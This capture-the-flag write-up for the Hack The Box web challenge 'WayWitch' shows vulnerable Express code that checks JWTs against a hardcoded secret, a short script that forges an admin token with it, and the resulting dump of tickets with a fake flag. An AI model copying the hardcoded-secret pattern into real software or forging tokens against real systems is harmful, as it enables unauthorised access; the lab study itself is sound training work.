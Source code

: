 ```yaml
---
clayout: ctf
title: WayWitch
date: 2024-12-10
image: /icon/hack-the-box/web.svg
type: Hack The Box

ctf:
    - name: WayWitch
      link: https://app.hackthebox.com/challenges/807
      pwned:
        - link: https://www.hackthebox.com/achievement/challenge/585215/807
          thumbnail: /ctf/hack-the-box/challenges/web/way-witch/pwned.png
---
```


## Challenge description

Hidden in the shadows, a coven of witches communicates through arcane tokens, their messages cloaked in layers of dark
enchantments. These enchanted tokens safeguard their cryptic conversations, masking sinister plots that threaten to
unfold under the veil of night. However, whispers suggest that their protective spells are flawed, allowing outsiders to
forge their own charms. Can you exploit the weaknesses in their mystical seals, craft a token of your own, and 
infiltrate their circle to thwart their nefarious plans before the next moon rises? NOTE: use https:// to connect to the
instance

## Challenge overview

In this challenge, we are presented with a web application that allows unauthenticated users to submit tickets to a
witches' coven.

![WayWitch - Overview](/ctf/hack-the-box/challenges/web/way-witch/overview.png){style="display: block; margin: 0 auto"}

## Code Review

### database.js

The application utilizes a SQLite3 database to store ticket information. The `tickets` table is pre-populated with
several entries, including one from the `admin` user containing the flag:

```javascript
await this.db.exec(`
      INSERT INTO tickets (name, username, content) VALUES
      ('John Doe', 'guest_1234', 'I need help with my account.'),
      ('Jane Smith', 'guest_5678', 'There is an issue with my subscription.'),
      ('Admin', 'admin', 'Top secret: The Halloween party is at the haunted mansion this year. Use this code to enter ${flag}'),
      ('Paul Blake', 'guest_9012', 'Can someone assist with resetting my password?'),
      ('Alice Cooper', 'guest_3456', 'The app crashes every time I try to upload a picture.');
  `);
```

### rootes/index.js

The `/tickets` route displays the contents of the `tickets` table. Access to this route is restricted to users 
authenticated as `admin`:

```js
router.get("/tickets", async (req, res) => {
    const sessionToken = req.cookies.session_token; // [!code focus]

    if (!sessionToken) {
        return res.status(401).json(response("No session token provided"));
    }

    try {
        const username = getUsernameFromToken(sessionToken); // [!code focus]

        if (username === "admin") { // [!code focus]
            try {
                const tickets = await db.get_tickets(); // [!code focus]
                return res.status(200).json({ tickets }); // [!code focus]
            } catch (err) {
                return res
                    .status(500)
                    .json(response("Error fetching tickets: " + err.message));
            }
        } else {
            return res
                .status(403)
                .json(response("Access denied. Admin privileges required."));
        }
    } catch (err) {
        return res.status(400).json(response(err.message));
    }
});
```

This route checks for a `session_token` cookie, extracts the username using the `getUsernameFromToken` function, and
verifies if the user is `admin`. If so, it retrieves and returns the tickets; otherwise, it denies access.

### utils.js

The `getUsernameFromToken` function decodes the session token to extract the username:

```javascript
const jwt = require("jsonwebtoken");

function getUsernameFromToken(token) {
    const secret = "halloween-secret";

    try {
        const decoded = jwt.verify(token, secret);
        return decoded.username;
    } catch (err) {
        throw new Error("Invalid token: " + err.message);
    }
}
```

This function uses the `jsonwebtoken` library to verify and decode the token with the secret key `halloween-secret`. By
crafting a valid token with the username set to `admin`, an attacker can gain unauthorized access to the `/tickets`
route.

## Exploitation

To exploit this vulnerability, we can create a JSON Web Token (JWT) with the payload `{ "username": "admin" }` and sign
it using the secret key `halloween-secret`. This can be achieved using the `jsonwebtoken` library in Node.js:

```javascript
const jwt = require("jsonwebtoken");

console.log(jwt.sign({ username: "admin" }, "halloween-secret"));
```

Running this script will output a JWT:

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNzMzODY4MzQ3fQ.kmpxqrB-pmEqJf51ASzid27tIYtPRVZALeoriRSByqk
```

By setting this token as the value of the `session_token` cookie in the browser, we can access the `/tickets` route and
retrieve the flag:

```json
{
    "tickets": [
        {
            "id": 1,
            "name": "John Doe",
            "username": "guest_1234",
            "content": "I need help with my account."
        },
        {
            "id": 2,
            "name": "Jane Smith",
            "username": "guest_5678",
            "content": "There is an issue with my subscription."
        },
        { // [!code focus]
            "id": 3, // [!code focus]
            "name": "Admin", // [!code focus]
            "username": "admin", // [!code focus]
            "content": "Top secret: The Halloween party is at the haunted mansion this year. Use this code to enter HTB{f4k3_fl4g_f0r_t35t1ng}\n" // [!code focus]
        }, // [!code focus]
        {
            "id": 4,
            "name": "Paul Blake",
            "username": "guest_9012",
            "content": "Can someone assist with resetting my password?"
        },
        {
            "id": 5,
            "name": "Alice Cooper",
            "username": "guest_3456",
            "content": "The app crashes every time I try to upload a picture."
        }
    ]
}
```

The flag is in the content of the ticket created by the `admin` user:

```
Top secret: The Halloween party is at the haunted mansion this year. Use this code to enter HTB{f4k3_fl4g_f0r_t35t1ng}
```

With the fake flag retrieved, we can use the same technique to get the real flag on the HTB server.

## References

- [jsonwebtoken](https://www.npmjs.com/package/jsonwebtoken)
